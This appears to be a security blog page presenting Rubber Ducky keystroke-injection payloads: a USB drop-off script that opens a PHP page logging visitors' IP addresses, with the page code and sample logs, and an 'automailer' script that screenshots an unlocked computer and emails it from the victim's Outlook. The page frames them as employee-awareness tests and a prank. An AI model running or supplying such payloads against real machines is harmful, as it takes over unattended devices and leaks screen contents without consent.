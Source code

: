 [Back to Main Page](../index.html) 

# Rubber Ducky

<img src="../img/banner_hackerblue.jpg" width="1000">

The Rubber Ducky is a 'flash drive' that types keystroke injection payloads into unsuspecting computers. Generally, payloads may execute commands on your device. As such, it is possible for a payload to damage your device. Payloads from this blog and repository are provided AS-IS without warranty. As with any script, you are advised to proceed with caution.

## Rubber Ducky Dropoff Attack

Recently we decided to test our employees by dropping off a modified Rubber Ducky outside of the building and creating awareness for such social attacks. The DuckyCode opens up a webpage.php, which tracks the device and logs it on logfile which has been placed on the webserver.

This is the uncompiled payload.

```
DELAY 1000
GUI r
DELAY 100
STRING https://company.tld/rubduck/link.php // insert link here
ENTER
```

The .php was created and loaded into our webpage by one of my colleagues, the code is basically this:

```php
<?php

$file = 'log.txt';
$entry = file_get_contents($file);
$time = date('Y-m-d H:i:s', time());
if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
    $entry .= sprintf('%s: New RubberDucky initialisation detected from %s' . PHP_EOL, $time, $ip);
} else {
    $ip = $_SERVER['REMOTE_ADDR'];
    $host = gethostbyaddr($_SERVER['REMOTE_ADDR']);
    $entry .= sprintf('%s: New RubberDucky initialisation detected from %s, %s' . PHP_EOL, $time, $host, $ip);
}
file_put_contents($file, $entry);

header('Location: ' . 'https://google.com');
die();
```
  
After creating the payload we inject it on the USB, by placing the inject.bin in the root directory. A few days after dropping it off, we had the results we wanted to see:

```
2021-11-18 20:04:58: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:05:45: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:12: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:06:31: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
2021-11-18 20:08:38: New RubberDucky initialisation detected from 192.168.1.105, 192.168.1.105
```

## Rubber Ducky Automailer Prank

To remind people to never keep their PC unlocked, I have created a second script for the RubberDucky. It allows me to plug the USB in an unlocked device, wait while it causes some mischief. The script snaps a screenshot, opens outlook, sends a message to various people with pre-configured text, adds screenshot and opens up a muted one hour rickroll youtube video once done. 

This configuration works a little better than most others you could find on github as it uses `outlook.exe /c ipm.note /m` instead of opening the outlook messenger somehow different.

```
REM Title:          Automailer
REM Author:	    Ratcode404
REM Description:    Snaps screen, opens outlook, sends a message to various people with pre-configured text, adds screenshot and opens up a muted 1 hour rickroll youtube video once done.

REM Default Delay (350 should be mid-speed)
DEFAULT_DELAY 350

REM Take screenshot
SHIFT WINDOWS S
DELAY 200
TAB
TAB
TAB
TAB
ENTER
DELAY 300

REM Open Outlook (Change E-Mail and text)
GUI r
DELAY 100
STRING outlook.exe /c ipm.note /m ratcode404@notarealmail.com?v=1&cc=ratcode405@notarealmail.com
ENTER
DELAY 500
STRING Subject goes here.
TAB
STRING Hello Ratcode!
ENTER 
STRING I like to leave my device unlocked and would want to invite you to some free dinner tonight.
ENTER
STRING xoxo

REM Paste Screenshot in Mail (CTRL V)
SHIFT INSERT
DELAY 200

REM Send Mail
ALT S
ENTER
DELAY 200

REM Rickroll, Mute and Fullscreen (Can adjust link obviously)
GUI r
DELAY 100
STRING https://www.youtube.com/watch?v=zL19uMsnpSU
ENTER
DELAY 300
M
DELAY 200
F
```
